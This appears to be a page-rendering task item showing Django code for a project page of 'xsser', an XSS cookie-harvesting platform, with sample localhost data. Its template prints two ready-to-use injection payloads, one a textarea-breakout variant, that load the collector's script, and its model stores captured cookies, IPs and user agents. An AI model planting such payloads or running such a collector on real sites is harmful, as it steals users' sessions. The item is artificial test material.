
Page /project/?id=3 (signed in) on the committed database.
### core/models.py (models this page shows, shortened)
class XssProject(models.Model):
    user = models.ForeignKey(User)
    title = models.CharField(max_length=30)
    records = models.ManyToManyField(Record, blank=True, null=True)
    create_time = models.DateTimeField(auto_now_add=True)
    keep_session = models.BooleanField(default=False)
    custom_js = models.BooleanField(default=False)
    custom_js_content = models.TextField(blank=True)

class Record(models.Model):
    create_time = models.DateTimeField(auto_now_add=True)
    cookie = models.TextField(blank=True)
    user_agent = models.CharField(max_length=50, blank=True)
    ip = models.IPAddressField(blank=True)
    url = models.URLField(blank=True)
    title = models.CharField(max_length=50, blank=True)

### core/views.py (the view)
# urls.py: url(r'^project/$', 'core.views.project_detail', name="project_detail"),
@login_required(login_url="/login/")
def project_detail(request):
    project_id = request.GET.get("id", "-1")
    try:
        p = XssProject.objects.get(pk=int(project_id), user=request.user)
    except XssProject.DoesNotExist:
        raise Http404
    if "csrftoken" in request.COOKIES:
        token = request.COOKIES["csrftoken"]
    else:
        token = ""
    return render(request, "core/project_detail.html", {"project": p, "base_url": BASE_URL, "token": token})

### templates/core/project_detail.html (shortened to what this page needs)
{% extends "base.html" %}
{% block body %}
{% include "_nav_bar.html" %}
<div class="container">
    <div class="project">
        <div class="project_description">
            <h3>{{ project.title }}</h3>
            <p>Create time:{{ project.create_time|date:"Y-m-d H:i:s" }}&nbsp;&nbsp;&nbsp;&nbsp;
                <span class="glyphicon glyphicon-trash"></span>
                <a href="javascript:void(0)" onclick="delete_project()">Delete this project</a>&nbsp;&nbsp;&nbsp;&nbsp;
                <span class="glyphicon glyphicon-asterisk"></span><a href="/project/settings/{{ project.id }}">Settings</a>
            </p>
            <hr/>
            <div class="instruction">
                <p>How to use?</p>
                <p><code>&ltscript src="{{ base_url }}xss?id={{ project.id }}"&lt/script&gt</code></p>
                <p><code>&lt/textarea&gt'"&gt&ltscript src="{{ base_url }}xss?id={{ project.id }}"&lt/script&gt</code></p>
                <p>You can test your code <a href="/project/test/" target="_blank">here</a></p>
            </div>
        </div>
        <hr/>
        <div class="project_records">
            <div class="panel panel-default">
                <div class="panel-body">
                    {% if not project.records.all %}
                    <p>No cookies</p>
                    {% else %}
                        {% for record in project.records.all reversed %}
                            <div class="record">
                                <p>Record id:<span class="badge">{{ forloop.counter }}</span></p>
                                <p>Create time:{{ record.create_time|date:"Y-m-d H:i:s" }}</p>
                                <p>Title:<code>{{ record.title }}</code></p>
                                <p>Url:<code>{{ record.url }}</code></p>
                                <p>Cookie:
                                <code>{{ record.cookie }}</code></p>
                                <p>User agent:<code>{{ record.user_agent }}</code></p>
                                <p>ip:<code>{{ record.ip }}</code></p>
                                <hr/>
                            </div>
                        {% endfor %}
                    {% endif %}
                </div>
            </div>
        </div>
    </div>
</div>
{% endblock %}

### templates/_nav_bar.html (shortened to what this page needs)
<div class="navbar navbar-default navbar-static-top" role="navigation">
    <div class="container">
        <div class="navbar-header">
            <a class="navbar-brand" href="/my_projects/"><span style="font-size:130%;color:black;">xsser</span></a>
        </div>
        <div class="navbar-collapse collapse">
            <ul class="nav navbar-nav navbar-right">
                {% if user.is_authenticated %}
                <li class="dropdown">
                    <a href="#" class="dropdown-toggle" data-toggle="dropdown">{{ user.username }}
                        <b class="caret"></b></a>
                </li>
                {% else %}
                <li class="active"><a href="/login/"><span class="glyphicon glyphicon-user"></span>&nbsp;登录</a>
                </li>
                {% endif %}
            </ul>
        </div>
    </div>
</div>

### rows in the picture
XssProject: title "222222", create_time "2014-04-30 19:02:48", id "3"
Record: create_time "2014-04-30 19:02:59", title "Xss test page", url "http://127.0.0.1:8000/project/test/", cookie "csrftoken=ugKhx6GIGvA7MqYkdDS3pmPTHbHInQsp; test_cookie=\"this is a test cookie\"", user_agent "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.116 Safari/537.36", ip "127.0.0.1"

### other values in the picture
{{ user.username }} "root"
{{ base_url }} "http://127.0.0.1:8000/"
